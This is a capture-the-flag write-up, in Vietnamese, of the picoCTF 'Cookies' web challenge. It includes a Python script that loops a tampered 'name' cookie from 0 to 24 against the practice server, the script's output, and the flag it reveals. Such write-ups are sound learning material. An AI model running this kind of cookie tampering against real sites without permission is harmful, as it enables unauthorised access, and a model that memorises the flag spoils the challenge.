


## Description
> Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:27177/
## Link challenge 
> https://play.picoctf.org/practice/challenge/173?category=1&page=1
## Solution
- Đầu tiên em truy cập vào đường dẫn đề cho `http://mercury.picoctf.net:27177/`
- Tại trang chủ em thấy 1 box cho phép nhập dữ liệu.
- Nếu em nhập `snickerdoodle` thì nó sẽ báo đúng, có vẻ như nó xác thực từ cookies
- 
- Sử dụng extension `cookies editor` em chỉnh sửa các value lần lượt thì các giá trị hiển thị tại home sẽ thay đổi 
- 
- Tại nguồn [này](https://javascript.info/cookie) => `The total number of cookies per domain is limited to around 20+, the exact limit depends on the browser.`
- Em sẽ viết script in theo cookie value chạy từ 1 đến 25
```
import requests

url = 'http://mercury.picoctf.net:27177/'

# Set the cookie in the headers

for i in range(0, 25):
    cookies = {'name': f'{i}'}
    print(cookies)
    # Make a request to the URL with the cookie
    response = requests.get(url, cookies=cookies).text
    # xu ly
    
    response = response.split('<p style="text-align:center; font-size:30px;"><b>')[-1]
    response = response.split("</b></p>")[0]
    print(response)
```
- Và đây là kết quả
```
{'name': '0'}
I love snickerdoodle cookies!
{'name': '1'}
I love chocolate chip cookies!
{'name': '2'}
I love oatmeal raisin cookies!
{'name': '3'}
I love gingersnap cookies!
{'name': '4'}
I love shortbread cookies!
{'name': '5'}
I love peanut butter cookies!
{'name': '6'}
I love whoopie pie cookies!
{'name': '7'}
I love sugar cookies!
{'name': '8'}
I love molasses cookies!
{'name': '9'}
I love kiss cookies!
{'name': '10'}
I love biscotti cookies!
{'name': '11'}
I love butter cookies!
{'name': '12'}
I love spritz cookies!
{'name': '13'}
I love snowball cookies!
{'name': '14'}
I love drop cookies!
{'name': '15'}
I love thumbprint cookies!
{'name': '16'}
I love pinwheel cookies!
{'name': '17'}
I love wafer cookies!
{'name': '18'}
Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_064663be}</code></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF</p>
        </footer>

    </div>
</body>

</html>
{'name': '19'}
I love macaroon cookies!
{'name': '20'}
I love fortune cookies!
{'name': '21'}
I love crinkle cookies!
{'name': '22'}
I love icebox cookies!
{'name': '23'}
I love gingerbread cookies!
{'name': '24'}
I love tassie cookies!
```
> Flag : picoCTF{3v3ry1_l0v3s_c00k135_064663be}